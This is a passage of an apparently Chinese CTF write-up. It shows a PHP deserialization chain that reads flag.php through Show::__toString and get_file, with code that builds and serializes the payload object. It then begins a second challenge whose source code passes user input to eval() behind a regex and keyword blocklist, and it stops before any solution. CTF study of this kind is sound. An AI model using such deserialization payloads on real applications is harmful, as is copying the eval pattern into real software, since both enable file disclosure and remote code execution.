 ```php
{
    $show = new Show('index.php');
    $show->_show();
}
```

首先看到Read的get_file()方法可以读文件，然后继续往下看，Show的__toString()方法会调用get_file()方法。这样的话只需要使Show对象被当作字符串执行就可以了。构造一个这样的对象：

```php
<?php
class Read {
}

class Show {
    public $source;
    public $var;
    public $class1;
}

$a = new Show();
$a->var = "flag.php";
$a->class1 = new Read();

$b = new Show();
$b->source = $a;

echo serialize($b);
?>
```

然后放到config，sid=Change，__get()方法会将它作为方法执行，然后base64解码得到flag。另外扫目录可以看到又flag.php文件。

# 又是套娃奥

## 解题思路

放出了源码：

```php
<?php

highlight_file(__FILE__);

error_reporting(0);

$file = $_GET['file'];

echo "Do you Like taowa<br>";

if(isset($_GET['handsomeyds'])){
                if(';' === preg_replace('/[a-z|\_]+\((?R)?\)/', NULL, $_GET['handsomeyds'])) {
                        if (!preg_match('/et|na|nt|ss|info|dec|flip|bin|hex|oct|pi|al|po/i', $_GET['handsomeyds'])) {
                                eval($_GET['handsomeyds']);
                        }
                        else{
                                die("you cannot use the function");
                        }
                }
                else{
                        die("you cannot do this");
                }
        }
```